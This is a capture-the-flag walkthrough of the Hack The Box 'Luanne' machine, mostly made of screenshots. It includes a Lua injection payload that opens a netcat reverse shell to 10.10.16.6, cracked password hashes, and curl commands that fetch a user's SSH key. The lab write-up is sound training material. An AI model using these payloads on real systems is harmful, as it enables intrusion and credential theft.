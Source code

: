 ```yaml
---
layout: post
title:  "Launne Walkthrough"
date:   2021-03-27 12:07:12 -0200
categories: blog
layout: post
---
```

# Luanne Walkthrough
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/68dcaeda-cf61-48b1-81df-3b50af1e1e63/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T212031Z&X-Amz-Expires=86400&X-Amz-Signature=dbcd74a0e70df071916f3b5829e6908e7810a2b0a601ab5e8b73336fbfb8017b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

<!--more-->

## Nmap Scan:

**I Found 3 ports opened 22,80,9001.** 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/64c7e259-9168-4229-9667-2595a8ddbe3a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T195051Z&X-Amz-Expires=86400&X-Amz-Signature=6e899b602e9231418485f298e07fb90c8d05390be5262e8817c037c988b418cd&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


### Let's start with the Web Page:

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4d331ad0-6ca7-4f1d-909f-84f926e8d56e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T220747Z&X-Amz-Expires=86400&X-Amz-Signature=65b805dc8bf10b8ecc4d26e664344b6d9bee398bcc14798209258e3103428039&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **It has authentication pop-up.**

> **I Tried admin:admin and other random credentials but no thing fine to login.**

> **But i noticed that when i got (401 Unauthorized) that is a localhost web page at port 3000.**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/3a02ba02-588c-4963-9dc7-24ea4943787e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T220955Z&X-Amz-Expires=86400&X-Amz-Signature=cc099e62053f11be44e021d0cb5e4789522f0935ca106604f5f0521d40de01a3&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


> #### I used ffuf for fuzzing luanne.htb/


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f6b5b7fb-096e-4093-8e4e-c60e9995e58e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T221725Z&X-Amz-Expires=86400&X-Amz-Signature=8fc77eddae8de86bd36a0cf5c68b9a9fabfd4662dd30c88f17b2a0a8bed8094f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)



* We got robots.txt

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/6ab319aa-1ec4-4590-b79a-3a1c662e4592/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T221840Z&X-Amz-Expires=86400&X-Amz-Signature=d5b1629ee14b8a6800c3adbee52baa8619ee207b69bb3ef4a574e9163fb2d6b0&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* /weather disallowd with comment: still harversting cities.

* access to luanne.htb/weather 404 not found.

* but there are cities we had to find them.

* let's fire up ffuf again to fuzz luanne.htb/weather/ 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4cc16698-a933-4e1f-b8fe-93d90e352b09/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T222958Z&X-Amz-Expires=86400&X-Amz-Signature=671502ab015208afeb98b1e8115c50c54a76c79eac2badc5047ca95c6a2786ca&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**Nice got forecast**

> * by visiting luanne.htb/weather/forecast/ got this.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/30d8f697-acbb-4e76-a9d3-f180eef28422/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T223205Z&X-Amz-Expires=86400&X-Amz-Signature=54f272392356033508eb550b63db92bf354720ed6607b1ca1a05839ebf2b4a08&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


> #### Use city=list to list available cities 

*okay, Thanks*


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/97f1a229-81a0-4fc5-a5bd-a1563ef5d03a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T223414Z&X-Amz-Expires=86400&X-Amz-Signature=1a4dc9c7f0f8694c1e8fa955301877b599fc83c7420080adeb386ce8f37a0d03&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* It's just a weather statues for every city, I stucked here and got hint from HTB fourms. 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d25b6f67-0786-4f9a-a430-2037802b6cb9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T224449Z&X-Amz-Expires=86400&X-Amz-Signature=9ccb6b1fb1178961d4a5f681732eb4bd5fdec19c0ecd92531045733a69b1f4df&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**Lua web application vulnerable to code injection by add a missing round brackets().**

* to get the shell we have to know the operating system and it's netBSD.
* by addind the missing round bracket to the shell.

```ruby
');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 1234 >/tmp/f")—
``` 
**encode the url**
```ruby
http://luanne.htb/weather/forecast?city=%27%29%3Bos.execute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.6%201234%20%3E%2Ftmp%2Ff%22%29--
```
## Getting reverse shell.

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b64544ff-c962-4820-89c7-87d16bae551d/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210326%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210326T233833Z&X-Amz-Expires=86400&X-Amz-Signature=1c932c8959ac3359021f96e9a027d6478eb9e2d448f981ecb0da2266efb56c24&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

```html
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```
* added to luanneWepApi.txt 

> **we have to crack this hash, so Used john to crack it**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/98100502-7a21-44e9-a307-71009920d1f5/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000029Z&X-Amz-Expires=86400&X-Amz-Signature=ba06437302ef5bb61103ad4745f4a1173b7f3ef368623bb14d2824626fb64d01&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**we got iamthebest**

## Enumerate luanne.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/81c7b723-f8c6-4c67-815a-cc6fb50b694e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000501Z&X-Amz-Expires=86400&X-Amz-Signature=dc8d5eac59120d22d8e2ce98cbbbe5c7972cea09e34d87d602ce2f98b9405707&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * We got user r.michaels 

**Let's check the netstate** 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/68cbe7e3-435c-4071-b0c2-362c4e020e4e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000734Z&X-Amz-Expires=86400&X-Amz-Signature=a44ed310321fbe5aa26f79c418f10a2cba6f2bdd49b10dfde7c7b76104cbdf03&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * There is a localhost web page on port 3000 and 3001. 

**Let's Dig more**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/62151e89-8b1e-4410-81d0-576865571022/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T000947Z&X-Amz-Expires=86400&X-Amz-Signature=0feb6997691ee9f8b4fb6bc2d50bde74b6fbf1879abab801c6ce75945912f2c4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/274bfca7-5dc2-4e22-829e-fc635a640a9f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T001005Z&X-Amz-Expires=86400&X-Amz-Signature=8eda012b3fa2de684229b9ed534e0dfe70be7b67d8d148d8b4beef47c8da1731&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

**I got hinted to dig more in port 3001 and get id_rsa.**

**So let's Try to curl the local web server in port 3001.**
```html
curl 127.0.0.1:3001/~r.michaels/.ssh/id_rsa
``` 

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/577680ad-0d62-4049-8807-06949f11b2bf/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T094912Z&X-Amz-Expires=86400&X-Amz-Signature=dc3af5a2ddd7f2616085ca6eb5b9a49d3f72286e038a5771c55efc9c4413f6a7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **no items here so we can find it in /~r.michaels/id_rsa ,Because we enterted launne as _httpd so this folder shared through web that's why we found id_rsa in /~r.michaels/ not in /~r.michaels/.ssh/**


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/cc2830e1-d413-45e5-b2e4-b08f25dc5971/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T104638Z&X-Amz-Expires=86400&X-Amz-Signature=24fa5d4156e6580b973a080a29bc407a275802c7282bbf4eb5fbe67b4de71d23&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **No Authorization, So let's login with "iamthebest"** 

```html
curl - -user webapi_user:iamthebest 127.0.0.1:3001/~r.michaels/id_rsa
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/c4319954-c801-4fd4-be32-ae661b5395f9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T104907Z&X-Amz-Expires=86400&X-Amz-Signature=8ebcb5b89974c9bf25f1d1e439ae070680d0272aa7ca73600ed2902daf21e06a&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)


## SSH connecting.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/39a3ea0a-a456-4cbc-85bb-f2a108f54ce1/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T110437Z&X-Amz-Expires=86400&X-Amz-Signature=30bda8b984028e7110f3f303ac6734f2b6c3f81c73e493926d29435fc55ebee1&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d4ce4df0-4220-4d4e-9ecd-9d80f5d439f9/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T111708Z&X-Amz-Expires=86400&X-Amz-Signature=092e4423b90439f98569273f708bf73c7f3326654563b7268cdc2928b410450f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **WE will use netpgp to decrypt devel_backup-2020-09-16.tar.gz.enc**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/df9e3cd8-2f09-4ac2-9d4a-de75132cf62f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T111924Z&X-Amz-Expires=86400&X-Amz-Signature=adcbf5ffb0181c3da4216b859d3e234763e346959dfbe9e3ead20d0d453149e7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> * we access to /webapi but no thing useful.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/7e6784ef-44d6-4f6d-966b-fa043e7f028b/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T112012Z&X-Amz-Expires=86400&X-Amz-Signature=234487128c019cc5bca0afed5d4355c31bc8a33b9ac6c36d8264b785be79deb4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

> **we access to /www and got another webapi_user.**
 
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/0e656a1a-424f-45c4-99e4-1ee73d0a2379/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T112121Z&X-Amz-Expires=86400&X-Amz-Signature=0979a19503435017e80de8bdb182cc4d32ff1aa4fb4a9df728d0cb02ae557d63&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

* webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.


#### As before we will use john to crack it.

> **we got"littlebear"**

**by switching to superuser permissions using sudo su...**

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/18e18677-6eb5-4bf0-8f8f-e47caec1a68a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T114025Z&X-Amz-Expires=86400&X-Amz-Signature=4fb1cad83fb9853f3930e6cbccf4411e5eb4c2c4d2b058b6cc7abcba4345120f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

##### Command Not Found!!!

> **we had to find Alternatives for sudo su in netBSD operating system.**

* I found doas su, And that's ok.
* Surely we will use littlebear to get root.


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/9369b1ff-362e-42f6-920a-7a3eb88b5504/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20210327%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20210327T114352Z&X-Amz-Expires=86400&X-Amz-Signature=1daca75835fcf2777e7d4cdb8368c74cba25ed9acaedeab2f328f86131c3de40&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

# RooTed
![]()
